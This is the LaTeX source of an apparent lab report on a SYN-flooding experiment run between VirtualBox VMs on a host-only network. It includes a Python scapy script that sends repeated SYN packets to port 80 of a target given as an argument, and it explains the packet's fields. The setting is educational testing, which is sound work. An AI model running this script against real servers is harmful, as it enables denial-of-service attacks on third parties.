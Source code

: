 \documentclass[11pt]{article}
\begin{document}
\texttt{}\vspace{5mm}

\subsection{Virtual machines' deployment}
As it has been mentioned before, we will create three virtual machines using VirtualBox, two of them will be attackers and the other will perform the victim's role. They will run Ubuntu Server 18.04.3 and the victim will have an apache server running on port 80.\vspace{5mm}

The machines will be connected through the VirtualBox “Hostonly” network adapter. By using this method, VirtualBox creates virtual adapters for connections and doesn't try to use a physical network adapter. This setup requires creating a host-only adapter (if none exists).

\subsection{Description of the SYN flooding script}
This script is based on the original created by \href{https://github.com/subodhp}{Subodh Pachghare} in which the VM attacker sends malformed SYN connection packets to the target:\vspace{5mm}

\begin{lstlisting}

#! /usr/bin/env python
import sys
from scapy.all import *
print("Field Values of malformed packet sent")
# Create malformed packet
p = IP(dst = sys.argv[1], id = 1111, ttl = 99)/TCP(sport = RandShort(), dport=80, seq = 12345, ack = 1000, window = 1000, flags = "S")
ls(p)
print("Sending Packets in 0.3 second intervals for timeout of 4 sec")
ans, unans = srloop(p, inter = 0.3, retry = 2, timeout=4)
print("Summary of answered packets")
ans.summary()
print("---------------------------")
print("Summary of unanswered packets")
unans.summary()
print("source port flags in response")
for s,r in ans:
    print r.sprintf("%TCP.sport% \t %TCP.flags%")

\end{lstlisting}

\vspace{5mm}

Let's take a look at some of the details of the malformed packet: the destination address of the packet is passed as a parameter, it will be the address of the victim server (virtual machine). The source port is randomly generated using the \texttt{} function. Lastly, the TCP flags are set to "S", in order to send a SYN packet.\vspace{5mm}
\end{document}
